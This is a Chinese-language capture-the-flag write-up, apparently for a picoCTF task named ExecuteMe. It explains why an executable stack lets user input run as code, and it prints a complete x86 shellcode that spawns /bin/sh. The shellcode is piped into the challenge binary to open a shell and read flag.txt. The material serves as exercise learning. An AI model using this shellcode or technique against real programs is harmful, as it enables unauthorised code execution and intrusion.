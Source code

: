 # ExecuteMe
 * [Makefile](Makefile)中，`-zexestack`把原本預設的`stack as non-executable``拿掉了，所以能執行任何傳入的assembly code
```c
typedef void (*function_ptr)();
...
((function_ptr)buf)();
```
查了function pointer的用法：
 * 每個function包含code和指到code的function pointer
 * 而上面的程式碼是在告訴compiler，function_ptr的code從buf開始，所以compiler會把function pointer指到buf的開始位址
 * 但要注意到function指到的位置必須是**可執行的assembly code**

所以，能打開shell的assembly code必須符合以下條件：
 1. **不能包含\x0**，否則copy function會當作結束字元
 2. **執行輸入的code**：overwrite RET，相對位置 = 4(%esp)
 3. **猜中RET**：插入nop來增加成功率

想自己寫一個開啟shell的shellcode，但還沒成功，所以先用網路上其他人做的：
`\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68`
 1. 放入程式執行
```bash
pico62895@shell:/home/execute$ (python -c 'print "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"') | ./execute
pico62895@shell:/home/execute$
```
 成功執行，但在我們能輸入其他指令前就結束了
 2. 所以使用cat讓他開著，並且會把結果印到terminal上：
```bash
pico62895@shell:/home/execute$ (python -c 'print "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"'; cat) | ./execute
ls
Makefile   core       execute	 execute.c  flag.txt
cat flag.txt
shellcode_is_kinda_cool
```

成功取得flag。
